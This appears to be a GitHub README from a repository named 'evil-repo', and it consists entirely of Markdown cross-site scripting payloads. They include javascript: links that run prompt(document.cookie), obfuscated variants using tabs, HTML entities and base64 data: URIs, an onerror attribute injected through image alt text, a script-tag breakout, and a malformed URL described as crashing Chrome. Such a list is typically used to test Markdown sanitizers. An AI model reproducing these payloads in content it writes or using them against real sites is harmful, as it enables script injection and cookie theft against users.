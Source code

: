 evil-repo
=========

[a](javascript:prompt(document.cookie))
[a](j	a	v	a	s	c	r	i	p	t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))
<javascript:prompt(document.cookie)>
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
asd
asd

![a'"`onerror=prompt(document.cookie)](x)

[citeme][citelol]

[citelol]: (javascript:prompt(document.cookie))

![3030 chrome crashy-crashy](%%30%30)



[aaaa</a><script>alert(1)</script>](javascript:alert(1))
